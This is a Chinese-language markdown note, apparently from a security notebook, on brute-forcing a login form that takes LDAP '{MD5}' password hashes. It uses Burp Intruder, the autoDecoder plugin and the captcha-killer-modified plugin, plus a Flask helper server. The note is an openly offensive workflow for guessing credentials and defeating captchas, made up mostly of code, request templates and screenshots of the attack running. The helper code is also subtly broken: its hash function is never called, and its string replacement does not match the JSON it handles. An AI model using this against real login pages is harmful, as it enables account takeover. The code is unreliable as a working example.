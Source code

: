 ```yaml
---
created: 2022-08-31T23:55:33+08:00
updated: 2022-09-02T08:42:15+08:00
---
```

# ldap的md5加密配合`autoDecoder`插件、`captcha-killer-modified`插件
#autoDecoder例

需要传入的数据包为:
```bash
{"username":"admin","password":"{MD5}ISMvKXpXpadDiUoOSoAfww==","code":"YJIV"}
```

`intruder`数据包设置如下：
```bash
{"username":"admin","password":"§1§","code":"§JOEJ§"}
```

`intruder`设置如下：
![800](photo/Pasted%20image%2020220414142603.png)
![800](photo/Pasted%20image%2020220414142107.png)
![800](photo/Pasted%20image%2020220414142541.png)

由于我们只针对`intruder`里的账号密码进行爆破，所以解密接口我们用不到，直接捕捉到数据包直接返回即可：
```python
@app.route('/decode',methods=["POST"]) # 不解密  
def decrypt():  
    param = request.form.get('data')  # 获取  post 参数  
	return param  
```
加密服务端代码如下：
```python
# -*- coding:utf-8 -*-  
# author:f0ngf0ng  
  
# ldap的md5加密爆破  
  
from flask import Flask,Response,request  
from pyDes import *  
import base64,hashlib,json  
  
def hash_md5(data):  
    md = hashlib.md5()  
    md.update(str(data))  
    a = md.digest()  
    b = base64.b64encode(a)  
    return b  
  
app = Flask(__name__)  
  
@app.route('/encode',methods=["POST"])  
def encrypt():  
    param = request.form.get('data')  # 获取  post 参数  
	data = json.loads(param)  
    print(data)  
    encry_param = param.replace( "password': '"+ data['password'],"password': '"+"{MD5}" + data['password']) # 密文替换明文，且添加{MD5}关键字  
    return encry_param  
  
@app.route('/decode',methods=["POST"]) # 不解密  
def decrypt():  
    param = request.form.get('data')  # 获取  post 参数  
	return param  
  
if __name__ == '__main__':  
    app.debug = True # 设置调试模式，生产模式的时候要关掉debug  
	app.run(host="0.0.0.0",port="8888")
```
运行如下
```bash
python flask.py
```
`autoDecoder`设置如下：
![800](photo/Pasted%20image%2020220414141838.png)

`captcha-killer-modified`插件页面如下：
![800](photo/Pasted%20image%2020220414143000.png)
爆破如下：
![800](photo/Pasted%20image%2020220414143037.png)
